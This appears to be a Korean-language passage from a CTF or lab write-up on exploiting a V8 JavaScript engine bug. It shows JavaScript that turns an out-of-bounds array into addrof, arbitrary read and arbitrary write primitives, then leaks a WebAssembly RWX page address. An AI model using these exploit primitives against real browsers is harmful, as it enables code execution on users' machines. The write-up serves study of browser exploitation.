   

- offset이 **25**일때 하위 4바이트가 `object map`이기 때문에 이 부분을 `float_map`으로 덮어서 `addrof`를 만들 수 있다.

- 8byte단위로 overwrite가 되므로 **상위 4바이트는 기존 값을 유지**시켜 주었다.

  ```jsx
  function addrof(obj) {
      obj_arr[0] = obj;
      oob[25] = itof((bh << 32n) | ah)
      let addr = obj_arr[0];
      oob[25] = itof((bh << 32n) | bl);
      return ftoi(addr) & 0xffffffffn;
  }
  ```

  

- **float_array의 elements 부분에 addr - 8을 연산한 값**을 넣어주면 `aar`과 `aaw`가 생성된다.

- offset이 **15**일때 상위 4byte가 elements 부분인데, 마찬가지로 **하위 4byte 값은 유지**해주었다.

  ```jsx
  cc = ftoi(oob[15])
  cl = cc & 0xffffffffn
  
  function aar(addr) {
  	// 15 offset is float_arr's elements
  	oob[15] = itof((addr - 0x8n << 32n) | cl)
  	return ftoi(float_arr[0]);
  }
  
  function aaw(addr, val) {
  	// 15 offset is float_arr's elements
  	oob[15] = itof((addr - 0x8n << 32n) | cl)
    float_arr[0] = itof(val);
  ```

  

- wasm을 이용하여 `rwx` 영역을 만들면 된다.

- rwx 영역의 offset은 디버깅을 통해 알 수 있다.

  - vmmap으로 rwx 영역 확인 후 해당 주소를 검색해보면 된다.

  ```jsx
  var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]); 
  var wasm_mod = new WebAssembly.Module(wasm_code);
  var wasm_instance = new WebAssembly.Instance(wasm_mod);
  var f = wasm_instance.exports.main;
  var wasm_i_addr = addrof(wasm_instance);
  var rwx = aar((wasm_i_addr+0x68n));
  
  print('[+] rwx      : ' + hex(rwx))
  ```
